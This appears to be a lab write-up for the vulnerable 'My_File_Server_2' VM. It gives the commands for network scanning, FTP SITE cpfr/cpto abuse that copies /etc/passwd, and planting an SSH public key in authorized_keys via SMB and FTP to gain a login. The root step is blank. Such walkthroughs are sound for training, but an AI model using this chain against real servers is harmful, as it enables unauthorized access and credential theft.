









# My_File_Server_2

## Machine Information

- **Machine:** My_File_Server_2
- **Platform:** Offensive Pentesting Lab
- **Repository:** https://github.com/InfoSecWarrior/Offensive-Pentesting-Lab/tree/main/Vulnerable-OVA

---

# Lab Setup

1. Download the vulnerable machine from the repository.
2. Import the OVA into VirtualBox.
3. Start the virtual machine.

---

# Network Enumeration

## Discover the Target

```bash
nmap -sn 192.168.2.0/24
```



---

## Port Scan

```bash
nmap -v -p- 192.168.2.240
```



---

# Web Enumeration

Visit the target.

```
http://192.168.2.240/
```

---

## Directory Enumeration

```bash
feroxbuster \
-u http://192.168.2.240/ \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
```


---

## Interesting Files

```
http://192.168.2.240/index.html
http://192.168.2.240/readme.txt
```



---

# FTP Enumeration

## Connect to the Default FTP Service

```bash
ftp 192.168.2.240
```

The server reveals the **vsFTPd** version.


---

## Connect to FTP on Port 2121

```bash
ftp 192.168.2.240 2121
```


Reconnect if required.

```bash
ftp 192.168.2.240 2121
```



---

## FTP Commands

Display the available FTP commands.

```text
help
```

Display SITE commands.

```text
site help
```

Copy the system password file.

```text
site cpfr /etc/passwd
```

```text
site cpto /var/ftp/pub/passwd
```


---

## Retrieve the Password File

Reconnect to FTP.



Download the copied `passwd` file and inspect its contents.


---

## Attempt FTP Login

Try logging in with the **smbuser** account.


---

# SMB Enumeration

## List SMB Shares

```bash
smbclient -L //192.168.2.240
```


---

## Connect to the SMB Share

```bash
smbclient //192.168.2.240/smbdata
```



---

# SSH Key Generation

Generate an RSA key pair.

```bash
ssh-keygen -b 2048 -t rsa -f id_rsa -q -N ""
```


---

## Upload the Public Key

Connect to the SMB share.

```bash
smbclient //192.168.2.240/smbdata
```

Upload the generated `id_rsa.pub` file.



---

# Copy the Public Key Using FTP

Reconnect to FTP on port **2121**.

```bash
ftp 192.168.2.240 2121
```

Display available SITE commands.

```text
site help
```

Copy the uploaded public key.

```text
site cpfr /smbdata/id_rsa.pub
```

Move it to the SSH authorized keys location.

```text
site cpto /home/smbuser/.ssh/authorized_keys
```


---

# SSH Access

Login using the generated private key.

```bash
ssh -i id_rsa smbuser@192.168.2.240
```



---

# Root Access

After obtaining shell access, switch to the root account.



---

# Attack Flow

1. Discover the target.
2. Enumerate open ports.
3. Enumerate the web server.
4. Enumerate the FTP service.
5. Copy `/etc/passwd` using FTP SITE commands.
6. Enumerate SMB shares.
7. Generate an SSH key pair.
8. Upload the public key to the SMB share.
9. Copy the public key into `authorized_keys`.
10. Login via SSH.
11. Obtain root access.